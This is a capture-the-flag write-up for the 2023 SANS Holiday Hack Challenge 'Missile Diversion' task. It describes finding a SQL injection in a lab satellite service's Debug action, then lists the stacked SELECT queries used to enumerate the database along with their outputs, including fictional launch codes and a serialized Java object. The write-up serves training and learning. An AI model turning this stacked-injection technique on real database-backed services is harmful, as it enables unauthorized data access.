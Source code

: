 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content:
| QUERY | RESULTS |
| - | - |
| ; SELECT * FROM pointing_mode_to_str | id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.
id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \| |
| ; SELECT * FROM user_variables | java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables |
| ; SELECT * FROM messaging | id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|
id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \|
11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|
id: 3 msg_type: LaunchCode \| msg_data: DLG2209TVX \|
id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED
id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED
id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|
id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|
id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|
id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| |
| ; SELECT * FROM pointing_mode | id: 1 \| numerical_mode: 0 \| |
| ; SELECT * FROM target_coordinates | id: 1 lat: 1.14514 \| Ing: -145.262 \| |
| ; SELECT * FROM satellite_query | jid: 1 \| object: ........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java \| results: import java.io.Serializable;
# Output removed to shorten report
public class SatelliteQueryFileFolderUtility implements Serializable {
# Output removed to shorten report |


